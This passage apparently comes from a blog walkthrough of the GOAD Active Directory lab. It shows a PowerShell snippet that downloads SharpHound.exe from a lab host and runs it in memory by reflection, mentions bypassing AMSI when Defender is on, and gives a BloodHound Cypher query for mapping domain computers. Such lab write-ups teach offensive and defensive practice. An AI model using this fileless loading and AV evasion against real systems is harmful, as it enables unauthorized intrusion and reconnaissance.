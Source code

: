 ![sharphound_rdp.png](/assets/blog/GOAD/sharphound_rdp.png)

- Or we could also do it in reflection with powershell if you want to play it full in memory (if you do this with defender enabled you will first have to bypass amsi)

```psh
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1/SharpHound.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())
```

### Hunting with bloodhound

- Now start neo4j and bloodhound (at the time of writing the python ingestor match bloodhound 4.1 be sure to get the right version)
- Upload the zips into bloodhound
- And now show all domains and computer

```
MATCH p = (d:Domain)-[r:Contains*1..]->(n:Computer) RETURN p
```
